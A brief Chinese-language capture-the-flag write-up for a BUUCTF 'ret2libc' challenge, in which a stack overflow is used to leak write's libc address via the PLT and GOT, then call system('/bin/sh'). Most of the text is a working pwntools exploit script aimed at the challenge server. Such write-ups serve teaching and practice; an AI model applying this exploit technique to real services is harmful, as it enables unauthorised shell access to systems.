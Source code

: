 ### Write 泄露 Libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a72ed7d0e0a243d4fd0eef.png)

代码很简单，直接给出了存在漏洞的函数

![](https://pic1.imgdb.cn/item/67a72ef4d0e0a243d4fd0ef2.png)

明显存在栈溢出，但是没有给出 system 及 /bin/sh，需要泄露 libc

![](https://pic1.imgdb.cn/item/67a72f1bd0e0a243d4fd0ef4.png)

plt 表中给出了 write，可以调用 write 函数打印 write 函数实际在 libc 中的地址

![](https://pic1.imgdb.cn/item/67a72f70d0e0a243d4fd0ef6.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',27605)
elf = ELF('./2018_rop')

write_got = elf.got['write']
write_plt = elf.plt['write']
main = 0x080484c6

payload = b'a' * 0x8c + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(0x20)

p.sendline(payload)
write_add=u32(p.recv(4))

system = write_add - 0xa89e0
binsh = write_add + 0x961df

payload = b'a' * 0x8c + p32(system) + p32(0) + p32(binsh)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a72de1d0e0a243d4fd0ec5.png)